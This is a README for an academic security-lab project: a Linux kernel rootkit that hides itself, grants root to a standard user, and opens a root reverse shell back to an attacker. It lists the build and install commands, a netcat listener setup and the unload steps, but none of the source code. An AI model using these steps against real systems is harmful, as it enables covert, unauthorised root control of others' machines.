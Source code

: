 # Securitylab Project - Root Privileges Reverse Shell

## Team Member
Sittichok Thanomkulrat and Xianze Zhan

## Tested Environment
Ubuntu 16.04(64 bit) with Kernel 4.4.0

## What Does it do?
We implemented a rootkit module. It can hide itself from the module list and grant the root access for standard user after it has been installed. The non-root user can then run the reverse shell script to open a root reverse shell and connect back to the attacker. 

## File You May Care
- install_rootkit.sh
- reverse_shell.sh
- rootkit.c
- rootkit.h

## How to Load & Run? <br />
On target bot side: <br />
  make <br />
  sudo ./install_rootkit.sh <br />
  
On Attacker side: <br />
  nc -l -p <listen_port> -vvv <br />
  
Standard user on target side:<br />
  ./reverse_shell.sh <br />
You may modify the attacker server ip address & listen port in the reverse_shell script <br />

## How to Unload？<br />
  echo "unhide" > /proc/CS460/status<br />
  sudo rmmod rootkit

## Warning!!!<br/>
This project is designed for acedemic research and study only. Please don't use it against any unauthorised users in real world! 
